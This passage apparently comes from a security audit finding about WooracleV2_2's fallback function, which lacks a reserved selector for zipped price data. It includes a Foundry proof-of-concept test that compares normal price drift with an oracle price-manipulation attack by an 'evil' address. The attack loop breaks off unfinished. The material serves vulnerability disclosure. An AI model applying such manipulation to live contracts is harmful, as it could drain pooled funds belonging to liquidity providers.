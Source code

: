 ````WooracleV2_2.fallback()```` is used to post zipped token price and state data to the contract for sake of gas saving. However, the first 4 bytes of zipped data are not reserved to distinguish the ````ZIP```` call and other normal call's function selector.
    TestUsdtToken usdt;
    TestWbctToken wbtc;
    address evil = address(0xbad);

    function setUp() public {
        usdt = new TestUsdtToken();
        wbtc = new TestWbctToken();
        oracle = new WooracleV2_2();
        pool = new WooPPV2(address(usdt));

        // parameters reference: Integration_WooPP_Fee_Rebate_Vault.test.ts
        pool.setMaxGamma(address(wbtc), 0.1e18);
        pool.setMaxNotionalSwap(address(wbtc), 5_000_000e6);
        pool.setFeeRate(address(wbtc), 25);
        oracle.postState({_base: address(wbtc), _price: 50_000e8, _spread: 0.001e18, _coeff: 0.000000001e18});
        oracle.setWooPP(address(pool));
        oracle.setAdmin(address(pool), true);
        pool.setWooracle(address(oracle));

        // add some initial liquidity
        usdt.mint(address(this), 10_000_000e6);
        usdt.approve(address(pool), type(uint256).max);
        pool.depositAll(address(usdt));

        wbtc.mint(address(this), 100e8);
        wbtc.approve(address(pool), type(uint256).max);
        pool.depositAll(address(wbtc));
    }

    function testMaxPriceDriftInNormalCase() public {
        (uint256 initPrice, bool feasible) = oracle.price(address(wbtc));
        assertTrue(feasible);
        assertEq(initPrice, 50_000e8);

        // buy almost all wbtc in pool
        usdt.mint(address(this), 5_000_000e6);
        usdt.transfer(address(pool), 5_000_000e6);
        pool.swap({
            fromToken: address(usdt),
            toToken: address(wbtc),
            fromAmount: 5_000_000e6,
            minToAmount: 0,
            to: address(this),
            rebateTo: address(this)
        });

        (uint256 pastPrice, bool feasible2) = oracle.price(address(wbtc));
        assertTrue(feasible2);
        uint256 drift = ((pastPrice - initPrice) * 1e5) / initPrice;
        assertEq(drift, 502); // 0.502%
        console2.log("Max price drift in normal case: ", _toPercentString(drift));
    }

    function testUnboundPriceDriftInAttackCase() public {
        (uint256 initPrice, bool feasible) = oracle.price(address(wbtc));
        assertTrue(feasible);
        assertEq(initPrice, 50_000e8);

        // top up the evil, in real case, the fund could be from a flashloan
        wbtc.mint(evil, 100e8);

        for (uint256 i; i < 10; ++i) {
````